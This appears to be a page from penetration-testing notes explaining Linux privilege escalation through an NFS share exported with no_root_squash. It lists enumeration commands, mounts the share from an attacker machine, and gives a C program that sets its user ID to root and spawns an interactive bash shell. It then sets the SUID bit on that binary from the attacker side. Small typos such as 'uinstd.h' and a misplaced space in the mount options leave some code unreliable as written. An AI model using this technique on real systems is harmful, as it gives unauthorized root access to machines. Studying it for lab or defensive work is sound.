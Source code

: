 # Introduction

The compromised machine may be configured to allow certain directories to be mounted by other machines. You can enumerate such directories by running the following command on the victim machine:

```bash
cat /etc/exports
```

![](res/Images/NFS%20Root%20Squashing/Enumerate%20Mountable%20Directories.png)

You can additionally verify this from your attacker machine by running:

```bash
showmount -e <victim IP>
```

![](res/Images/NFS%20Root%20Squashing/Confirm%20Mountable%20Directories.png)

If there is a mountable directory which is configured as `no_root_squash`, as is the case here, then it can be used for privilege escalation.

We begin by mounting the target directory from the victim to a directory on our machine:
```bash
sudo mount -o rw, vers=3 <victim IP>:/tmp /tmp/root_squash
```

Now, if `no_root_sqaush` is configured for the mountable directory, then the root user on the attacker machine will get mirrored on the victim machine. In essence, any command run as root on the attacker machine, will also be executed as root on the victim! This can allow us to create a malicious binary in the mounted directory and set its SUID bit from the attacker machine. This action will be mirrored by the victim and we will essentially have an SUID binary on the target which is all under our control.

Let's write a simple malicious C executable:

```cpp
#include <uinstd.h>
#include <stdlib.h>

int main()
{
	setuid(0); // Set user ID to root
	setgid(0); // Set group ID to root
	system("/bin/bash -i"); // Execute bash now with elevated privileges

	return 0;
}
```

It doesn't matter if you create it on the target or the attacker machine, but you *must* compile it on the target machine in order to avoid library version mismatches:

```bash
gcc -o nfs_exploit nfs_exploit.c
```

![](res/Images/NFS%20Root%20Squashing/Compile%20On%20Target.png)

Next, you want to change the ownership of the compiled binary to `root` *on the attacker machine*. Afterwards, you want to set the SUID bit on the binary, once again, *from the attacker machine*:

```bash
sudo chown root:root nfs_exploit
sudo chmod +s nfs_exploit
```

![](res/Images/NFS%20Root%20Squashing/Change%20Ownership%20and%20Permission%20on%20the%20Attacking%20Machine.png)

![](res/Images/NFS%20Root%20Squashing/Ownership%20and%20Permissions%20from%20the%20Target's%20POV.png)

Finally, execute the malicious binary *on the target*:

![](res/Images/NFS%20Root%20Squashing/NFS%20Exploit.png)
